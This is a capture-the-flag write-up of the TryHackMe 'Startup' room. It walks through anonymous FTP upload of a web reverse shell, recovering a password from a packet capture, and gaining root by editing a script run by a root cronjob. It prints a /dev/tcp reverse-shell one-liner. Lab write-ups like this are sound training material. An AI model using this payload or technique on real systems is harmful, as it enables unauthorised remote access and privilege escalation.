 # Startup

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/98d1e206f2d58494b67a1a52c0f8d244.png)

## Difficulty = Easy

***

Running our nmap scan we have 3 ports opened -:

```bash
# Nmap 7.94 scan initiated Fri Oct 20 01:25:57 2023 as: nmap -p80,21,22 -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.102.105
Nmap scan report for 10.10.102.105
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.75.133
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 20 01:26:17 2023 -- 1 IP address (1 host up) scanned in 19.40 seconds
```





Enumerating `FTP`, we have anonymous login enabled 🤟



![](https://i.imgur.com/vFnDBy0.png)




We can therefore use this command to download all files on the server


```bash
$ wget -m --no-passive ftp://anonymous:anonymous@10.10.102.105
```


Checking the files the only thing that gives us important information is `notice.txt`, which gives us a username called, **Maya**.


![](https://i.imgur.com/sci7wME.png)


Navigating to port `80/HTTP` we have a prompt telling us **"we'll be online shortly"**


![](https://i.imgur.com/5KvZHlz.png)

Viewing **Page-Source** nothing seems interesting here also

![](https://i.imgur.com/dShkQ7w.png)

Running dir/file bruteforce, we found a directory called `/files`

![](https://i.imgur.com/Wd4nkAB.png)


Navigating to `/files` we can see that all what we found in the **FTP** directory is still here


![](https://i.imgur.com/naVQJ99.png)


Well, we forgot to check if we can put files in the FTP directory


![](https://i.imgur.com/Shtfjiq.png)


Nice we can put files, but it is directory specific !, Meaning we can not put files on the base folder, but we can put files in an already created folder called `FTP`

![](https://i.pinimg.com/originals/39/73/c8/3973c89b972c2bf387065fc702643270.gif)


Now let upload our reverse shell and navigate to the website


![](https://i.imgur.com/ZdXTYXA.png)


Nice, our reverse shell have been uploaded


![](https://i.imgur.com/1csTG8g.png)


Now start up your listener and get your reverse shell back


![](https://i.imgur.com/onBG5Zo.png)

Navigating to the base folder `/` we have a `recipe.txt` file

![](https://i.imgur.com/2GJfC0W.png)

well we now know the **secret spicy soup recipe**, you can go ahead and answer the question

![](https://i.imgur.com/zEYnUBs.png)


We also have an **incidents** folder, that contains a `suspicious.pcapng` file

![](https://i.imgur.com/SRvdhCO.png)

Transfer the file to our target system and upload it to `wireshark`



![](https://i.imgur.com/Ecf2cFU.png)

On **wireshark** right-click on a packet and select **Follow >> Tcp Stream**


![](https://i.imgur.com/bZ0xPE3.png)


Keep Increasing the **stream** till we find important information (Just check stream 7 😂)


![](https://i.imgur.com/akNaViG.png)


We successfully have a password


![](https://i.imgur.com/oILcFdJ.png)

We can then login as user **lennie**


![](https://i.imgur.com/yYTJA5D.png)

Navigating to **lennie's** home directory we have a `script` folder

![](https://i.imgur.com/QWjrG3g.png)



The script folder has a `planner.sh` file

![](https://i.imgur.com/mE0AYYO.png)

Concatenating the `planner.sh` file, it also calls another file under `/etc` called `print.sh`

![](https://i.imgur.com/Wmf4tcd.png)

Looks like the `/etc/print.sh` file belongs to **lennie** and the `planner.sh` file belongs to user **root**, we can therefore upload our reverse shell here and get root

![](https://i.imgur.com/5bOSiiG.png)


By adding this payload to `/etc/print.sh` and then starting up our listener we can get our reverse shell


```bash
/bin/sh -i >& /dev/tcp/10.9.75.133/1337 0>&1
```


![](https://i.imgur.com/ynDr4fP.png)


Then start up your reverse shell using `netcat` and you should be root

![](https://i.imgur.com/OPuK6GJ.png)


> **_Note :_** Generally i ran `pspy32s` in other to know that the **planner.sh** script was running as a cronjob

Have fun 😁😎







